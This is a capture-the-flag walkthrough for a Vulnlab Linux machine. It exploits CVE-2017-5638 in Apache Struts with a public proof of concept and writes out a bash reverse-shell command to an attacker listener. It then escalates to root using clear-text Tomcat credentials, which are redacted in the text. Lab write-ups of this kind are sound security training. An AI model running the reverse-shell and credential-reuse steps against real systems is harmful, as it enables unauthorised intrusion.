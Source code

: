 ```yaml
---
title: "Vulnlab - Feedback [Easy]"
category: ctf-writeup
layout: post
---
```


| Name          | OS             | Difficulty                             |
| ------------- | -------------- | -------------------------------------- |
| **Feedback** | Linux | <span style="color:green;">Easy</span> |

## Summary

We would find an Apache Tomcat server running, where we can fuzz it to find an endpoint called `/feedback` which then we can exploit a vulnerability in Apache Struts for gaining our initial foothold. Then we would find clear-text credentials while analyzing the Apache Tomcat's files which will give us the root access.

## Initial Foothold

We would start with a nmap scan:

```
syl@sylsec:~/vulnlab/Feedback$ sudo nmap -sS -sU 10.10.80.221 --min-rate 10000 --open -p-   
[sudo] password for syl: 
Starting Nmap 7.80 ( https://nmap.org ) at 2023-12-26 16:40 EET
Warning: 10.10.80.221 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.80.221
Host is up (0.17s latency).
Not shown: 65456 open|filtered ports, 52483 closed ports, 13129 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

Which would give us the SSH service and some kind of HTTP website, upon visiting the website we would find that this is the default installation for Apache Tomcat. We have free access to the examples of the Apache Tomcat, but not to the `/manager`.

>This initially made me think that we would have something to do with the sessions because we can edit it, so I went to fuzz the website further.

We can fuzz the website for any additional directories:

```
syl@sylsec:~/tools$ ffuf -w $commontxt -u http://10.10.80.221:8080/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.80.221:8080/FUZZ
 :: Wordlist         : FUZZ: /home/syl/tools/lists/SecLists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
________________________________________________

docs                    [Status: 302, Size: 0, Words: 1, Lines: 1]
examples                [Status: 302, Size: 0, Words: 1, Lines: 1]
feedback                [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico             [Status: 200, Size: 21588, Words: 19, Lines: 22]
host-manager            [Status: 302, Size: 0, Words: 1, Lines: 1]
manager                 [Status: 302, Size: 0, Words: 1, Lines: 1]
```

As we can see, we have the `/feedback` route, that consisted of two input fields, one for the name and one for the feedback.

![[Pasted image 20231226190051.png]]

We can inspect the source code of the page and there we can find this HTML comment:

```
<!-- Build with Java, Struts2 & Log4J -->
```

We would then use Google to find some exploit related to those technologies, and we would find that the website is actually vulnerable to **CVE-2017-5638,** which is related to Apache Struts, there is a [PoC of that exploit in GitHub](https://github.com/mazen160/struts-pwn). We can setup a listener for the port `4444` and run the exploit:

```
syl@sylsec:~/vulnlab/Feedback/exploits/struts-pwn$ python3 struts-pwn.py --url 'http://10.10.80.221:8080/feedback/logfeedback.action' -c 'bash -i >& /dev/tcp/10.8.0.107/4444 0>&1'

[*] URL: http://10.10.80.221:8080/feedback/logfeedback.action
[*] CMD: bash -i >& /dev/tcp/10.8.0.107/4444 0>&1
```

That would give us the initial shell.

## Privilege Escalation

We can start enumerating the system from our reverse shell with `linpeas`, and we would also need to spawn a stable `tty` shell, I used python for that matter.

```
tomcat@ip-10-10-10-7:/tmp$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Upon carefully reviewing the output from `linpeas`, we would find the configuration for Apache Tomcat containing clear-text credentials.

```
/opt/tomcat/conf/tomcat-users.xml
<user username="admin" password="H2R<REDACTED>" roles="manager-gui"/>
<user username="robot" password="H2R<REDACTED>" roles="manager-script"/>
```

We can try to switch to the user `ubuntu` which doesn't work, but the user `root` does.

```
tomcat@ip-10-10-10-7:/tmp$ su ubuntu
su ubuntu
Password: H2R<REDACTED>

su: Authentication failure
tomcat@ip-10-10-10-7:/tmp$ su root
su root
Password: H2R<REDACTED>

root@ip-10-10-10-7:/# whoami
whoami
root
root@ip-10-10-10-7:/# cat /root/root.txt
cat /root/root.txt
VL{<REDACTED>}
```